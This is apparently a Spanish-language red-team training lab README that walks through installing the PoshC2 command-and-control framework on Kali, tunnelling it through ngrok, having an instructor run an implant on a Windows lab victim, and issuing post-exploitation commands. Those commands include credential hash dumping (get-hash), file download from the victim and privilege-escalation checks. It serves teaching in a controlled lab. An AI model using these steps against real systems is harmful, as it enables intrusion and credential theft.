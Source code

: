 ## Lab3: C2 - PoshC2
![image](https://user-images.githubusercontent.com/50930193/180666195-537fb36c-88bf-4926-b0d4-fc18e36b06ab.png)

**Descripción**

El laboratorio tiene por objetivo, establecer un Centro de Comando y Control (C2) basado en PoshC2, ejecutar comandos de obtención de información post explotación 

- Para el desarrollo del laboratorio se requiere que el participante instale el PoshC2 siguiendo las indicaciones o desde la página oficial: https://poshc2.readthedocs.io/en/latest/
- Como víctima, se debe crear una instancia en AWS con sistema operativo Windows7 o Windows Server 2012R2 y estar dentro del dominio RTOOS.NET. **La instancia debe estar conectado a la vpn pública.**


### SOLUCIÓN:

1. **Pre-requisito** (Tener Kali actualizado) si no se podrían presentar errores de dependencias:

   ```
   # Instalación en Kali 
   
   $ sudo apt update && sudo apt -y full-upgrade -y
   ```

2. **Instalación** Instalar PoshC2 en el equipo que ejecuta Kali Linux mediante la siguiente línea de comandos :

   ```
   # Instalación en Kali (disponible desde el 14 de Julio del 2022): 
   $ sudo apt install poshc2
   
   # Instalación de manera local: 
   $ curl -sSL https://raw.githubusercontent.com/nettitude/PoshC2/master/Install.sh | sudo bash

   # Instalación en docker:
   $ apt install docker docker.io
   ```
  ![image](https://user-images.githubusercontent.com/50930193/180670874-a44f63a7-866f-4423-8871-8089d206bdcc.png)
  ...
  ![image](https://user-images.githubusercontent.com/50930193/180671002-ea668940-1e65-4878-aef9-41d2ce4329e6.png)

  
- Instalar las dependiencias y configurar lo necesario para ejecutar el C2
- Cuando todo esté instalado correctamente, confgurar el servidor C2, considerando ngrok como proxy o tunnel 

3. **Configuración** Utilice, los siguientes comandos  para configuración:

    ```
    # Creación de proyectos:
    $ sudo posh-project -n <nombre_proyecto>
    ```
   ![image](https://user-images.githubusercontent.com/50930193/180668548-0af7946d-b92f-48b5-94b7-d00e3c7d65fc.png)
   
   ```
    # Configuración:
    $ sudo posh-config # se abrirá en el editor por defecto (vim en su mayoria)
    ```
    Dentro de la configuración se cambiaran 2 parametros generalmente:
    ```
    BindPort: -> Puerto de escucha en Kali o bien que apunte a ngrok
    
    PayloadCommsHost -> url de tu maquina escucha (ip de tu kali o tu ngrok).

    KillDate -> Fecha max que quieres que dure el beacon.
    ```
    
    Con kali directamente
    ![image](https://user-images.githubusercontent.com/50930193/180669019-8b67e91d-c694-442d-be1d-ee7a726b4950.png)

    Con ngrok  `$./ngrok http 8080 --scheme=http`
    ![image](https://user-images.githubusercontent.com/50930193/180670322-011c32ee-e8f0-4cad-8122-21db21b883f8.png)



- En una ventana de terminal ejecutar el servidor : 
     ```
     posh-server
     ```
     
- En otra ventana o pestaña de terminal ejecute el cliente o Implant Manager : 
     ```
     posh
     ```
     
  Le solicitará colocar un nombre de usuario.


- Para efectos de este laboratorio, el instructor ejecutará un payload que permitirá desplegar un implante que generará una conexión reversa hacia el PoshC2 Server o el participante puede tener acceso al host victima para realizar la transferncia del implante.

- Una alternativa para la transferencia del payload es utilizar un servidor web creado en la carpeta donde se almacenan los implantes (/opt/PoshC2_Project/payloads) :

```
    python -m SimpleHTTPServer 80
```
  	
- De forma ordenada, el participante deberá comunicar al instructor su dirección IP para que él descargue y ejecute el payload desde la maquina victima. De esta forma, recibirá una conexión reversa en su PoshC2 Server y tendrá su primer implante establecido.

- Otra opción es ejecutar el comando de powershell en base 64.

- En el Implant Handler y en la consola del C2 Server se podrá ver la información del implante que se ha conectado y esta disponible.

- Para interactuar con ese implante desde el Implant Handler, seleccionar el implante por su ID (verifique que sea el que corresponda al mismo que apareció en la consola del C2 Server).

- Ejecute algunos o todos los siguientes comandos además del comando help que le permitirá conocer lo que incluye Posch C2 Server por default :

```
    ls
    pwd
    get-implantworkingdirectory
    cd c:\users\xxxx 
    download-file Tropheo.txt
    get-computerinfo
    get-netstat
    get-pid
    ps
    find-allvulns
    invoke-allchecks
    get-MpPreference
    Get-LocalGroupMember Administrators
    get-hash
    loadmodule SeatBealt.ps1
    seatbelt
```
    
- Antes de culminar, vuelva al primer nivel del Implant Manager para obtener información del C2 Server y un reporte de actividades :

```
    back
    show-serverinfo
    generate-reports
```
    


*============FIN DE DOCUMENTO===============*




